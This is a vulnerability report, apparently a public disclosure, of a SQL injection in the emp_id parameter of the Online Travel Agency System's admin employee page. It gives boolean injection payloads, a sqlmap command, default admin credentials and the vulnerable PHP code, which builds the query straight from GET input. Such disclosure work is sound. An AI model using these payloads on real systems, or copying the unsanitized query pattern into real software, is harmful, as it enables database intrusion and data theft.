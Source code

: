 # [Online Travel Agency System-SQL Injection-employee_detail.php]

## Basic Information

**[Bug Reporter]:**  DililLearngent

**[Application Vendors]:**  https://www.sourcecodester.com/online-travel-agency-system-using-php.html

**[Affected Version]:**Online Travel Agency System V1.0

**[Test Environment]:**  windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"travel_agency"**.

5. **Import** the provided **SQL** file. The file is known as **"travel_agency.sql"** located inside the extracted source code folder.

6. **Browse** the **Online Travel Agency System** in a **browser**. i.e. **http://localhost/Travel**

   **Admin Access Information:**

   Username: **admin**
   Password: **admin**

## Bug Information

**[Vulnerability type]:** SQL Injection

**[Vulnerability Url]:** `http://10.142.221.111/Travel/admin/employee_detail.php?emp_id=66`    

**[Vulnerability Location]:** Travel/admin/employee_detail.php

**[Vulnerability Test]:**

1. When you enter `66%27%20and%20%271%27=%271` in the `emp_id` parameter, the page displays as follows:

   ![](../../img/20230428153616.png)

   

2. When you enter `66%27%20and%20%271%27=%272` in the `emp_id` parameter, the page displays as follows:

   ![](../../img/20230428153644.png)

3. Testing with sqlmap

   ```
   python sqlmap.py -u "http://10.142.221.111/Travel/admin/employee_detail.php?emp_id=66" --cookie="PHPSESSID=25ljgqv0ko3gcoh9pgvutde2v2" --current-db
   ```

   ![](../../img/20230428154020.png)

**[code analysis]:**

Travel/admin/employee_detail.php

```php
<?php
  $sql="select*from employee where emp_id='$_GET[emp_id]'";
$result=mysqli_query($con,$sql) or die(mysqli_error($con));
while($row=mysqli_fetch_array($result))
{
	$emp_picture=$row['emp_picture']; 
	$emp_id=$row['emp_id'];
	$emp_name=$row['emp_name'];
	$emp_contact=$row['emp_contact'];
	$emp_address=$row['emp_address'];
	$emp_reference=$row['emp_reference'];
	$emp_email=$row['emp_email'];
	$emp_join=$row['emp_join'];
	$emp_close=$row['emp_close'];;
	$inserted_by=$row['inserted_by'];
}
?>
  
<h1 align="center"> ALMOQADAS TRAVEL AGENCY ::: EMPLOYEE</h1>
<form name="form1">
<div align="center" style="border:1px solid #333; width:850px; margin:0 auto;">
<p><img src="<?php echo $emp_picture;?>" alt="" width="111" height="132">



<table width="auto" height="auto" border="1" style="bar.css">
  <tr>
    <td height="41">ID</td>
    <td>NAME</td>
    <td>CONTACT</td>
    <td>ADDRESS</td>
    <td>REFERENCE</td>
    <td>EMAIL</td>
    <td>JOIN DATE</td>
    <td>LEAVING DATE</td>
  </tr>
  <tr>
    <td><?php echo $emp_id;?></td>
    <td><?php echo $emp_name;?></td>
    <td><?php echo $emp_contact;?></td>
    <td><?php echo $emp_address;?></td>
    <td><?php echo $emp_reference;?></td>
    <td><?php echo $emp_email;?></td>
    <td><?php echo $emp_join;?></td>
    <td><?php echo $emp_close;?></td>
   
  </tr>
</table>
</div>
<input type="button" value="print" onclick="window.print() ;" />
</form>
```

The GET parameter `emp_id` is obtained without any filtering and spliced directly into the sql execution statement, and then a different page response exists depending on the result of the execution.